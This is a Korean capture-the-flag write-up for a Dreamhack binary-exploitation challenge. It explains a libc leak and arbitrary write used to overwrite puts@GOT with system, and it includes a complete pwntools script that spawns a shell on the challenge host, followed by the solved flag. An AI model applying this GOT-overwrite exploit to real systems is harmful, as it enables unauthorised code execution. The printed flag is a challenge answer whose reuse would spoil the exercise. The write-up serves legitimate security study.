



# B2 · GOT Overwrite

### 1. 문제 확인

<p align="center">
  
</p>

### 2. 코드 — 임의 주소 쓰기 + libc leak

```c
char command[0x40] = {0};
void *where = NULL;

printf("puts: %p\n", dlsym(RTLD_DEFAULT, "puts"));  // ① puts 실제 주소 공짜 제공 (leak)
read(0, command, sizeof(command) - 1);  // ② 명령 문자열 입력
read(0, &where, sizeof(where));          // ③ "어느 주소에 쓸지" (where)
read(0, where, 8);                       // ④ where 주소에 8바이트 쓰기 ← 핵심
puts(command);                           // ⑤ puts 호출
```

- **④ `read(0, where, 8)`** = **"원하는 주소에 원하는 8바이트"**를 그대로 써준다 → **임의 주소 쓰기(arbitrary write)**. 오버플로도 ROP도 필요 없다.
- **① `dlsym`** 이 puts의 런타임 주소를 출력해 주니 **libc leak도 공짜**.
- 이게 통하는 전제: 이 바이너리는 **No RELRO**라 GOT이 **쓰기 가능**하다. (Full RELRO였다면 GOT이 읽기전용이라 못 덮는다.)

### 3. 왜 GOT에 system 주소를 덮는가

`puts@plt`는 자기가 puts를 부르는지 **모른다.** 그냥 **`GOT[puts]`에 적힌 주소로 점프**할 뿐이다. 그래서 그 슬롯 값만 바꾸면 **기존 `puts(command)` 호출 자체가 다른 함수 호출로 변한다.**

```
변경 전:  puts(command) → puts@plt → GOT[puts] = libc의 puts   → puts(command)
변경 후:  puts(command) → puts@plt → GOT[puts] = libc의 system → system(command)
```

**차이는 `GOT[puts]` 슬롯 값 하나(puts→system)뿐**이고, plt·호출문·인자는 전부 그대로다. 게다가 puts·system은 **둘 다 인자 1개(`char*`)를 rdi로 받는 형태가 같아서**, `puts(command)`가 그대로 `system(command)`이 된다.

→ `command`에 `"/bin/sh"`를 넣어 두면 마지막 `puts(command)`가 **`system("/bin/sh")`**으로 바뀐다. `command`는 "넘길 인자", `where`/`value`는 "puts를 system으로 바꾸는 장치"이고, 둘은 `puts(command)` 한 줄에서 만난다.

### 4. libc 베이스 구하기 — 심볼 offset으로 역산

leak으로 얻은 건 **puts의 런타임 주소**지만, 정작 필요한 `system` 주소는 모른다. 대신 libc 파일 안에서 **puts·system의 상대 위치(offset)는 고정**이라, puts 주소에서 거꾸로 베이스를 구할 수 있다.

```python
libc.address = leaked_puts - libc.sym["puts"]   # base = 런타임주소 - 파일내 offset
system = libc.sym["system"]                      # base + system offset (자동 반영)
```

- `libc.sym["puts"]` = libc 파일 내부의 puts **offset**
- `leaked_puts - offset` = **이번 실행의 libc 베이스** (ASLR로 매번 바뀜)
- 베이스를 `libc.address`에 넣으면, 그 뒤 `libc.sym["system"]`이 **실제 system 주소**로 계산된다.

### 5. 익스플로잇 코드

<p align="center">
  
</p>

```python
#!/usr/bin/env python3
from pwn import *

e = context.binary = ELF("./got_overwrite", checksec=False)
libc = ELF("./libc.so.6", checksec=False)
p = remote("host3.dreamhack.games", 21912)

# 1. libc leak → system 주소 계산
p.recvuntil(b"puts: ")
leaked_puts = int(p.recvline().strip(), 16)
libc.address = leaked_puts - libc.sym["puts"]
system = libc.sym["system"]

# 2. puts@got을 system 주소로 덮기
p.sendafter(b"command: ", b"/bin/sh\x00")   # 넘길 인자
p.sendafter(b"where: ", p64(e.got["puts"])) # 쓸 주소 = GOT[puts]
p.sendafter(b"value: ", p64(system))        # 쓸 값 = system 주소

# 3. puts(command) → system("/bin/sh")
p.interactive()
```

> `libc.so.6`은 실행 폴더에 있어야 하고 **서버와 같은 버전**이어야 offset 계산이 맞는다.

### 6. 실행 흐름 & 결과

```
① "puts: %p" 수신      → libc 베이스·system 주소 계산
② command = "/bin/sh"
③ where   = GOT[puts]
④ value   = system     → read(0, where, 8)이 GOT[puts]를 system으로 덮음
⑤ puts(command) 실행   → GOT[puts](=system) 점프 → system("/bin/sh") → 셸
```

<p align="center">
  
</p>

```text
DH{29f924067d73cedc7a2cad94af98924824a8e809ef80e0fa7771a585c7aca208}
```
